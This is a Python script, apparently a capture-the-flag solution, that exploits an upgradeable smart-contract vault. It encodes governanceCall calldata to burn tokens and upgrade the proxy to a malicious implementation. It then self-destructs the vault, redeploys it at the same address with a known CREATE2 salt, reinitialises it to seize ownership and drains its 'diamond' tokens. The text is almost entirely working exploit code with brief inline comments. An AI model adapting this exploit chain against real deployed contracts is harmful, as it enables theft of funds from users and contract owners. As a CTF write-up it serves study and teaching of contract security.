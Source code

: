 ```Python
    dark_vault = w3.eth.contract(address=vault_addr, abi=x_abi)

    governance_call_function = "governanceCall(bytes)"
    burn_function_signature = "burn(address,uint256)"
    burn_function_signature
    upgradeTo_function_signature = "upgradeTo(address)"
    # Encode the "burn" function calldata
    amount = 31337
    burn_function_selector = w3.keccak(text=burn_function_signature)[
        :4
    ]  # First 4 bytes of the function selector
    encoded_token = w3.to_bytes(
        hexstr=w3.to_checksum_address(diamond_addr)[2:].zfill(64)
    )  # Address encoded to 32 bytes
    encoded_amount = amount.to_bytes(32, byteorder="big")  # Amount encoded to 32 bytes

    calldata = burn_function_selector + encoded_token + encoded_amount
    send_transaction(vault.functions.governanceCall(calldata), account)

    print(f"Diamond balance: {diamond.functions.balanceOf(vault_addr).call() = }")

    # Encode the "upgradeTo" function
    upgradeTo_function_selector = w3.keccak(text=upgradeTo_function_signature)[
        :4
    ]  # First 4 bytes of the function selector
    encoded_token = w3.to_bytes(
        hexstr=w3.to_checksum_address(x_address)[2:].zfill(64)
    )  # Address encoded to 32 bytes

    calldata = upgradeTo_function_selector + encoded_token
    send_transaction(vault.functions.governanceCall(calldata), account)
    # Selfdestruct the vault
    send_transaction(dark_vault.functions._selfdestruct(), account)

    # Create a new vault using vaultFactory
    salt_ = w3.solidity_keccak(
        ["string"],
        ["The tea in Nepal is very hot. But the coffee in Peru is much hotter."],
    )
    send_transaction(vaultFactory.functions.createVault(salt_), account)

    # Initialization, and we can gain ownership of the vault, no need to attack again
    send_transaction(
        dark_vault.functions.initialize(diamond_addr, hexens_coin_addr), account
    )
    # Upgrade to the dark vault again
    send_transaction(vault.functions.governanceCall(calldata), account)

    # Gain diamonds!
    send_transaction(dark_vault.functions.new_sender(), account)

if __name__ == "__main__":
    main()
```
